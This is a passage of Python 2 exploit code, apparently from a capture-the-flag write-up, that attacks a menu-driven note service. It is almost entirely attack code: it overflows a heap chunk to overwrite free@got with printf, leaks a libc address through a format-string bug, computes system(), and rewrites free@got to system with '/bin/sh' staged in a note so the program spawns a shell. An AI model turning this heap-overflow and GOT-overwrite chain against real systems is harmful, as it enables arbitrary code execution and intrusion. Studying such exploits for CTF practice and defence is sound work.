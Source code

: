 ```python
z(s, '40')
z(s, "A"*12+"\x29\x00\x00\x00\x62\x00\x00\x00"+"A"*12+p(4)+p(0x804b020))
#     ^ overflow    ^ restore 0x29, 'b'               ^ size of b ^ free@got

# overwrite free@got with printf
print "[+] replacing free() with printf()"
z(s, 'edit')
z(s, 'b')
z(s, '4')
z(s, p(0x080485f0)) # free@got overwritten with printf

# now 'get' c and trigger the format string vulnerability
print "[+] triggering format string"
z(s, "get")
z(s, "c")
data = z(s, str(len(format_str)))
time.sleep(0.1)

# this proved to be a bit finicky:
data += s.recv(256)
data += s.recv(256)

print data
# grab leaked libc address
m = re.findall(r'x--(.*)cSel', data)
if m: 
    print m
    leak = "0x"+m[0]
    leak_hex = int(leak, 16)
    print "[+] found first addr: {}".format(hex(leak_hex))
    system = leak_hex - 155428
    print "[+] system @ {}".format(hex(system))

# repeat the same trick, but this time, overwrite free@got with system()
# first note contains /bin/sh, used as argument for system()
z(s, "store")
z(s, "sh")
z(s, "7")
z(s, "/bin/sh")

z(s, "store")
z(s, "t")
z(s, "4")
z(s, "TTTT")

z(s, "store")
z(s, "q")
z(s, "4")
z(s, "QQQQ")

print "[+] overflowing t to set q to free@got"
z(s, 'edit')
z(s, 't')
z(s, '40')
z(s, "A"*12+"\x29\x00\x00\x00\x71\x00\x00\x00"+"A"*12+p(4)+p(0x804b020))
#     ^ overflow              ^ restore 'q'           ^ size of q  ^ free@got

print "[+] replacing free() with system()"
z(s, 'edit')
z(s, 'q')
z(s, '4')
z(s, p(system))     # free@got overwritten with system

```